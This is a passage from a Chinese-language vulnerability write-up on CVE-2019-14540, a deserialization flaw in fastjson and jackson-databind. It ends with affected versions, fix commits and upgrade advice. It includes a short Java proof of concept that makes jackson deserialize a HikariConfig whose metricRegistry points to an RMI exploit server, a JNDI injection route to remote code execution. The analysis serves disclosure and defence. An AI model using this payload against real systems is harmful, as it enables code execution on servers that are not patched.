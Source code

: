 ![](/assets/images/2019-09-20-cve-2019-14540/4.png)  

使用jackson反序列化同理，poc如下：  

```JAVA
ObjectMapper mapper = new ObjectMapper();
mapper.enableDefaultTyping();
mapper.readValue("[\"com.zaxxer.hikari.HikariConfig\", {\"metricRegistry\":\"rmi://127.0.0.1:1099/Exploit-SERVER\"}]".getBytes(), Object.class);
```

### 3. 影响版本&修复建议  

fastjson影响版本: `version < 1.2.60` ,修复commit: [5d09b913a533cf2d2eeea1124337681494804336](https://github.com/alibaba/fastjson/commit/5d09b913a533cf2d2eeea1124337681494804336)，建议升级到1.2.60或以上版本。  
jackson-databind影响版本: `version < 2.9.10` ,官方发布详情[戳这里](https://github.com/FasterXML/jackson-databind/blob/master/release-notes/VERSION-2.x)，修复commit: [d4983c740fec7d5576b207a8c30a63d3ea7443de](https://github.com/FasterXML/jackson-databind/commit/d4983c740fec7d5576b207a8c30a63d3ea7443de)，建议升级到2.9.10或以上版本。  

## 0x03 结语  

从整篇分析可知，造成CVE-2019-14540漏洞其实也不是fastjson、jackson单方面因素导致的，而是需要被攻击者环境中使用了fastjson或者jackson库，同时还使用了第三方组件[HikariCP](https://github.com/brettwooldridge/HikariCP)才能组合成一套攻击链，所以相对影响面还是比较小。到这里，CVE-2019-14540漏洞分析就暂时结束了，笔者功力不深，文章所述有理解错误的地方还请不吝赐教。  

**References:**  

[CVE-2019-14540 exploit](https://www.leadroyal.cn/?p=939)  
[深入理解JNDI注入与Java反序列化漏洞利用](https://www.freebuf.com/column/189835.html)  

**版权声明：转载请注明出处，谢谢。[https://github.com/curz0n](https://github.com/curz0n)**

{%endraw%}  